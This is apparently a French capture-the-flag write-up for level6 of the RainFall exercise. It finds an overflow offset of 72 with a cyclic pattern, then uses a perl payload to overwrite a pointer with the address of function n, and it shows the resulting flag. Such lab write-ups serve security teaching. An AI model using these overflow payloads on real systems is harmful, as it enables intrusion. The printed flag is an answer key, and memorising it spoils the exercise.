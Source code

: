 # level6

Il semble qu'on doivent accéder à la fonction n située à l'adresse `0x8048454`.

L'idée serait de changer l'adresse pointée par *v4 avec cette adresse pour pouvoir lancer n.

On commence par faire segfault le programme avec un payload de taille 200 via le site utilisé pour le level2.
```bash
Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
```
On utilise cette adresse pour calculer l'offset voulu, ce qui nous donne `72`.

On sait que nous voulons ensuite rediriger vers l'adresse de la fonction n, donc on essaye le payload suivant :
```bash
echo $(perl -e 'print "A"x72 ."\x54\x84\x04\x08";') > /tmp/payload
```
On lance ensuite le programme avec ce payload et on obtient directement le flag !
```bash
level6@RainFall:~$ ./level6 $(cat /tmp/payload6)
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
